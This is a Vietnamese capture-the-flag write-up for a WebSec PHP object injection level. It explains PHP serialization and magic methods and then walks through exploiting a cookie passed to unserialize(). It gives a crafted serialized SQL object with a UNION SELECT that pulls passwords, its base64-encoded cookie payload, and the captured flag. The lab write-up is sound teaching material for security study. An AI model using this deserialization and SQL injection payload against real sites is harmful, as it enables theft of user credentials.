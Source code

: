 # LevelFour - Cereal is nation
>PHP Object Injection_Sql cookie (deserialization php)
>
## Các định nghĩa cơ bản 
- Hàm hỗ trợ **Deserialization** đối tượng là unserialize( ) 
Input là một chuỗi đại diện cho object
Output là object được xây dựng lại từ chuỗi truyền vào hàm unserialize( )

- Hàm hỗ trợ **Serialization** đối tượng là serialize( )
Input của hàm này là một object 
Output của hàm sẽ là một chuỗi lưu object đó => cụ thể sẽ lưu class của object và các thuộc tính của object


## Cách khai thác 

Để khai thác được lỗ hổng PHP deserialization cần có 2 điều kiện :
  + Class phải sử dụng 1 trong 3 hàm **__wakeup(), __destruct(), __toString,__construct()**  để xử lý dữ liệu người dùng
  + Người dùng có thể chèn dữ liệu độc hại vào hàm unserialize() => **$_GET , $_POST , $_COOKIE , $_SESSION** 

Trong đó :

**__wakeup ( )**     : được thực thi khi một object được gọi dậy

**__destruct ( )**   : một trình hủy được gọi khi đối tượng bị hủy hoặc tập lệnh bị dừng hoặc thoát, PHP tự động gọi hàm này ở cuối tập lệnh (nếu được thiết lập)

**__construct ( )**  : cho phép người dùng khởi tạo các thuộc tính của một đối tượng khi tạo đối tượng, PHP sẽ tự động gọi hàm này khi tạo một đối tượng từ một lớp(class) 

## Bắt đầu khai thác 
Đề bài cho ta đầu vào là id và 2 source code :

### Cookie 

Khi nhập `id = 1` ta nhận được cookie 

![des](https://github.com/tinasahara1/Study/blob/e13f570adb7561eb9ef2c591d6c64dbaf6276c52/WebSec/image/des_cookie.PNG)

Decode Base64 `YToxOntzOjI6ImlwIjtzOjE0OiIxNzEuMjUwLjE2Mi45MCI7fQ==` ==> `a:1:{s:2:"ip";s:14:"171.250.162.90";}`

### Source code 1 : 

![des](https://github.com/tinasahara1/Study/blob/3e044e4600b730ed821cf47d1012566e7c143658/WebSec/image/des1.png)

=> Ta thấy được dấu hiệu của lỗ hổng và biến của cookie `$_COOKIE['leet_hax0r']` => Thão đk2
```php
 $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
```

### Source code 2 : 

![des](https://github.com/tinasahara1/Study/blob/3e044e4600b730ed821cf47d1012566e7c143658/WebSec/image/des2.PNG)

=> Ta cũng thấy được hàm `__construct() và __destruct() ` được thiết lập => Thão đk1

Cả 2 điều kiện đều thõa mãn => Phân tích source2 và tạo payload thuii 
Chúng ta cần tạo 1 object SQL trong unserialize và truy vấn đến biến $query => Tạo SQLi dựa vào lệnh sql cho trước `$sql->query = 'SELECT username FROM users WHERE id=';` 
```sql
O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}
```
Sau đó encode base64 nó ra 
`TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6InNlbGVjdCB1c2VybmFtZSBmcm9tIHVzZXJzIHdoZXJlIGlkPTEgdW5pb24gc2VsZWN0IHBhc3N3b3JkIGZyb20gdXNlcnMgd2hlcmUgaWQ9MSI7fQ==`

![des](https://github.com/tinasahara1/Study/blob/3e044e4600b730ed821cf47d1012566e7c143658/WebSec/image/des_flag.PNG)
Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`

